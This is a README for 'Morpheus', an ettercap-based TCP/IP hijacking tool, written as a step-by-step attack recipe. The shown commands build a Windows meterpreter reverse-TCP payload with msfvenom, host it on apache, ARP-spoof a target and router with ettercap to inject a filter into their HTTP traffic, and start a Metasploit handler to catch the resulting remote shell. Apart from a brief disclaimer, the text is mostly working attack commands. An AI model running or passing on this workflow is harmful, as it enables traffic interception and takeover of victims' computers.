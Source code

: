 [![Version](https://img.shields.io/badge/MORPHEUS-1.0-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-alpha-red.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-linux-orange.svg)]()
[![Github All Releases](https://img.shields.io/github/downloads/atom/atom/total.svg)]()
[![AUR](https://img.shields.io/aur/license/yaourt.svg)]()

# Morpheus - automated ettercap TCP/IP Hijacking tool
    Version release : v1.0-Alpha
    Author : pedro ubuntu  [ r00t-3xp10it ]
    Distros Supported : Linux Ubuntu, Kali, Mint, Parrot OS
    Suspicious-Shell-Activity (SSA) RedTeam develop @2016

# LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use
    of this tool, remember that attacking targets without prior
    consent is illegal and punished by law.

# Framework description
    ettercap filters to manipulate tcp/udp requests under MitM attacks replacing
    the http packet contents by our own contents befor sending the http packet
    back to the host that have request for it (TCP/IP hijacking)..



# Build msfvenom binary
    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=666 -f exe -o payload.exe



# Compile [filter].eft filter into iframe.ef
    sudo etterfilter /root/iframe.eft -o /root/iframe.ef

# copy files to apache2 webroot
    sudo cp /root/payload.exe /var/www/html

# Sart apache2 service
    /etc/init.d/apache2 start

# ip_forwarding
    echo "1" > /proc/sys/net/ipv4/ip_forward

# run ettercap mitm+filter
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip/ /routerip/


# IF YOUR PC USES IPV6 THEN USE THIS CONFIG INSTEAD OF THE ABOVE CODE
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip// /routerip//


# Start a multi-handler
    sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.67; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_tcp; exploit -j -k'


_EOF
